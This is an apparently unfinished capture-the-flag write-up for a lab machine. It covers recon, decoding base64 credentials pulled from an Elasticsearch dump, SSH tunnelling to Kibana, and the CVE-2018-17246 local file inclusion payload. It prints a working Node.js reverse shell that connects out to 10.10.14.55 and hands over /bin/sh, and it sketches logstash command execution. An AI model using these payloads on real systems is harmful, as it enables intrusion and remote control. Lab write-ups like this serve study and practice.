

# USER

`nmap` shows a `http` server on port 80. This page displays a photo of a needle.

Running `strings` provides us with the base64 string:

Translating the string: 
```
(base64)    bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

(Spanish)   la aguja en el pajar es "clave"

(English)   the needle in the haystack is "key"
```
Port 9200 shows an `elasticsearch` instance

Running it with

```
http://10.10.10.115:9200/*
```

Shows all the tables available

```
http://10.10.10.115:9200/<table_name>/_search
```

Dumping all the data can be achieved using https://github.com/taskrabbit/elasticsearch-dump

Example command:
```
elasticdump --input=http://10.10.10.115:9200/quotes --output=./quotes.dump
```

Searching for the word `clave` gives us the lines:

```
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg
Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

The `base64` gives:

```
user: security 
pass: spanish.is.key
```

These allow logging on via `ssh`. This lets us grab the `user.txt`!

# ROOT

This command exposes the `kibana` service to our local machine.
```
ssh -L 5601:127.0.0.1:5601 security@10.10.10.115
```

This allows us to use our web browser to view the `kibana` console

Going to try this exploit `CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13`

Payload:
```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../<SHELL_LOCATION>
```

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(6868, "10.10.14.55", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Look at `logstash`?


/etc/logstash/conf.d


```
input {
    exec {
        command => "touch /tmp/TEST_123.txt"
        interval => 5 
    }   
}
```